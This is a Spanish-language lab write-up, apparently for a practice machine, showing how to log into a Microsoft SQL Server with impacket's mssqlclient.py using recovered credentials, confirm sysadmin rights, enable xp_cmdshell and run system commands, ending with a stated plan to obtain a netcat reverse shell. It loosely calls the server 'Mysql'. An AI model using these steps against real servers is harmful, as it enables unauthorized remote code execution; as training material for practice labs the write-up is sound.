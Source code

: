 # Explotacion del fichero XP_CMDSHELL dentro de Mysql configurandolo para conseguir un RCE (Remote Code Execution)

Usando la herramienta de IMPACKET: [ mssqlclient.py ] 
```bash
"─$ /usr/bin/python3 /opt/impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth"                                                          2 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
```
Conseguimos acceso desde una nueva terminal con el uso de la herramienta mssqlclient.py de IMPACKETS, y proporcionando la Contraseña encontrada anteriormente en el archivo descargado y el usuario encontrado.

Usamos el siguiente comando para saber si tenemos los privilegios como administrador de la base de datos, y vemos que asi es.
```bash
"SQL> SELECT IS_SRVROLEMEMBER('sysadmin')    "
             
----------   
          1   
```
Uso de XP_CMDSHELL para ejecutar comandos, pero primero hay que configurarlo para poder usarlo.
```bash
"SQL> EXEC sp_configure 'Show Advanced Options', 1;  "
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.

"SQL> reconfigure;  "

"SQL> sp_configure;  "
name                                      minimum       maximum  "config_value"    run_value   
-----------------------------------   -----------   -----------   ------------   -----------   
"xp_cmdshell"                                  0             1             "1"            1 

SQL> EXEC sp_configure 'xp_cmdshell', 1 reconfigure;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```
Ejecutando Comandos desde el servicio de MYSQL con la opcion XP_CMDSHELL, habiendola configurado previamente.
```bash
"SQL> xp_cmdshell "whoami"  "
output                                                                             
--------------------------------------------------------------------------------   
archetype\sql_svc                                                                  
NULL                                                                               
SQL> 
```
Ahora que sabemos que podemos ejecutar comandos vamos a postear un servidor que aloje un archivito que nos descargamos para apuntar a el desde la maquina victima y que cuando se ejecute, nos lance una reverse_shell a nuestro equipo en el cual estaremos escuchando con netcat para recibir la conexion entrante.
